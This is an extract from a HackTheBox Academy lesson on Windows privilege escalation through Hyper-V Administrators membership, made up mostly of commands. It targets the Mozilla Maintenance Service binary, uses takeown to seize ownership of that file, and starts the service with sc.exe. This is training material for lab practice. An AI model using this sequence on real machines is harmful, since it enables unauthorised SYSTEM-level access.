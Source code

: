 <!--
 // Platform: Academy
// URL: https://academy.hackthebox.com/module/67/section/604
// Platform Version: V1
// Module ID: 67
// Module Name: Windows Privilege Escalation
// Module Difficulty: Medium
// Section ID: 604
// Section Title: Hyper-V Administrators
// Page Title: Windows Privilege Escalation
// Page Number: 13
-->

# Hyper-V Administrators

**Module Name:** Windows Privilege Escalation **Page Number:** 13

#### WINDOWS PRIVILEGE ESCALATION

# Hyper-V Administrators

#### Target File

```shell-session
C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe
```

#### Taking Ownership of the File

```cmd-session
C:\htb> takeown /F C:\Program Files (x86)\Mozilla Maintenance Service\maintenanceservice.exe
```

#### Starting the Mozilla Maintenance Service

```cmd-session
C:\htb> sc.exe start MozillaMaintenance
```

####